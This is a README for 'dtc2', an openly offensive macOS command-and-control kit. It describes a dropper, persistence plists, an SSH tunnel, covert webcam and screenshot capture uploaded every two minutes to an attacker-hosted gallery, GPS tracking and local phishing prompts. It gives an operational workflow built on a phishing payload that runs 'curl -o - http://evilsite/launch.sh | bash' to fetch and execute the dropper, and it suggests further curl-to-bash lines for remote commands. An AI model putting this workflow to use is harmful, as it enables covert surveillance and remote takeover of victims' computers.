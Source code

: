 # dtc2
Duct Tape Command and Control!

WARNING: You will ABSOLUTELY NEED to go into these files and edit them: dtc2.sh, launch.sh, tunnel.sh, upload.php, hax.plist. There are placeholders for where you need to put the domain or ip or host you intend to host some of these things on, and some small tweaks, but nothing that won't take you ~3 minutes. It's worth considering creating a 'generator' shellscript to spit out the 'finished' versions of these files so that you don't have to edit a bunch of files every time you wish to use dtc2. That's for later though :)


A quick file list:

- Airport.sh: this is just a shortcut to the airport binary on OSX
- dtc2.plist: this is the plist file that gets generated at 'exploit time', and runs dtc2.sh on a timer (2 min) - this is just an example of the output of launch.sh.
- geo.m: you compile this into a binary to get GPS coords from macs
- hax.plist: this is a plist that runs tunnel.sh, to make sure an ssh tunnel stays alive
- imagesnap: a binary that takes webcam pics (yes, it does fire the green light)
- launch.sh: this is the initial dropper. It creates dirs, and installs files, scripts binaries, etc, launches first evil things.
- meterp.py: skeleton for python meterpreter. this can probably be deleted.
- dtc2.sh: this script takes screenshots and webcam pics, then uploads them to a shitty catcher php script you host somewhere
- tunnel.sh: a simple bash loop to keep an ssh tunnel alive.
- gallery.html: a terrible, but simple drop-in gallery
- getImages.php: this builds the imagelist for the gallery html
- style.css: css for gallery
- upload.php: terrible file upload catcher. gets files for you and dumps them in a gallery dir
- osascript.sh: an example of osascript, used to locally-phish a user. try it on yourself! :D 

DISCLAIMER: Most of this code has been cobbled together, duct tape and bailing wire style (duct tape c2, get it now?), it is horribly vulnerable, and could use a lot of polish and work.

WORKFLOW:
First you'd stand up your site somewhere, drop gallery files into place. You'd then edit various files to update them with the url/ip/host info to match your environment

Then, you would use platypus to create your payload for a phish, in it you would simply have it run: curl -o - http://evilsite/launch.sh | bash

That would download and execute launch.sh, which would create all the dirs, drop files in place, create the plist files, then install and run them.
At that point you should have at least one shell, and the target computer should have a plist installed which runs 'dtc2.sh', which should be taking webcam pics and screenshots every two minutes and uploading them to the gallery. 

As an exercise left to the reader, at this point you can elect to install the plist for an ssh tunnel if you wish, or modify dtc2.sh to conduct any sort of post-exploit ops you wish. 
One idea is to add another 'curl to bash' line at the end and have it fetch somethinglike 'additonal instructions' as a shellscript to run in the event you want an asycnchronous command to be run, say in the event you lose all of your shells, or they install little snitch or something. 

Please help me make this thing awesome?

